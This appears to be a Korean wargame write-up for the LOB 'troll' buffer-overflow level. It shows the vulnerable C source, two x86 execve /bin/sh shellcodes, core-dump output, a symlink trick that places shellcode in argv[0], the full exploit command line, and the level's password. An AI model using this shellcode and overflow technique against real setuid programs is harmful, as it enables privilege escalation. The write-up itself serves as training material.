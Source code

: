 ```yaml
---
layout: post
title:  "[LOB]Level08. troll"
subtitle:   "[LOB]orge → troll"
categories: Write-up
tags:
- Wargame
- LOB(The Lord of Bufferoverflow)
- Write-up
---
```


## keyword : check argc

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - troll
        - check argc + argv hunter
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
	char buffer[40];
	int i;

	// here is changed
	if(argc != 2){
		printf("argc must be two!\n");
		exit(0);
	}

	// egghunter
	for(i=0; environ[i]; i++)
		memset(environ[i], 0, strlen(environ[i]));

	if(argv[1][47] != '\xbf')
	{
		printf("stack is still your friend.\n");
		exit(0);
	}

	// check the length of argument
	if(strlen(argv[1]) > 48){
		printf("argument is too long!\n");
		exit(0);
	}

	strcpy(buffer, argv[1]);
	printf("%s\n", buffer);

    // buffer hunter
    memset(buffer, 0, 40);

	// one more!
	memset(argv[1], 0, strlen(argv[1]));
}
```

shell(24byte) = \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80



'\x2f'없는 shell(48byte) = \xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81

 argc의 개수를 2로 정해졌으므로, argv[2]를 사용 하지 못한다.

buffer내용도 0으로 초기화 되며, argv[1]를 이용해서 argv[2]를 덮으려고 해도 길이가 48을 넘어 갈 수 없다.

그리고 argv[1]에 넣은 만큼 0으로 초기화 된다.



트롤 맞네... 😩😫



초기화 안된 영역은 argv[0]영역 밖에 없다. 이를 이용하자.

`python -c 'print "A"*44+"\xbf"*4'`

으로 core를 생성 한 후, core덤프에서 x/32s $esp 로 보다보면 파일 이름이 들어간 주소가 보인다.

```sh
0xbffffc44:	 ""
0xbffffc45:	 ""
0xbffffc46:	 ""
0xbffffc47:	 "i686"
0xbffffc4c:	 "./trola"
0xbffffc54:	 ""
0xbffffc55:	 ""
0xbffffc56:	 ""
```



이제 argv[0]에 쉘코드를 넣어야 한다.

> 이때 중요한것은 쉘코드에 '\x2f'값이 없어야 한다. 이유는 '/'문자열이 '\x2f'이기 때문에, 경로로 인식하게 때문이다.



이때 심볼릭링크를 사용해야 한다.

```sh
[orge@localhost orge]$ ln -s troll `python -c 'print "\x90"*100+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"'`
[orge@localhost orge]$ ls
core
trola
troll
troll.c
??????????????????????????????????????????????????�?^1ɱ2?l?�??�?u��?�����2�Qi00tii0cjo?�QT?�?�?�?
```

```sh
0xbffffa87:	 ""
0xbffffa88:	 ""
0xbffffa89:	 ""
0xbffffa8a:	 ""
0xbffffa8b:	 "i686"
0xbffffa90:	 "./", '\220' <repeats 105 times>, "�\021^1ɱ2\200l\016�\001\200�\001u��\005�����2�Qi00tii0cjo\212�QT\212�\232�\f�\201"
0xbffffb2c:	 ""
0xbffffb2d:	 ""
0xbffffb2e:	 ""
0xbffffb2f:	 ""
```

./`python -c 'print "\x90"*100+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"'` `python -c 'print "A"*44+"\x90\xfa\xff\xbf"'`



쉘코드를 파일 이름으로 심볼릭 링크 했기 때문에, 쉘코드를 파일로 인식을 하게 되고, main함수의 ret가 argv[0]을 가리키고 있는데 해당 주소에는 쉘코드가 있기 때문에 쉘이 실행된다.



##### **troll / aspirin**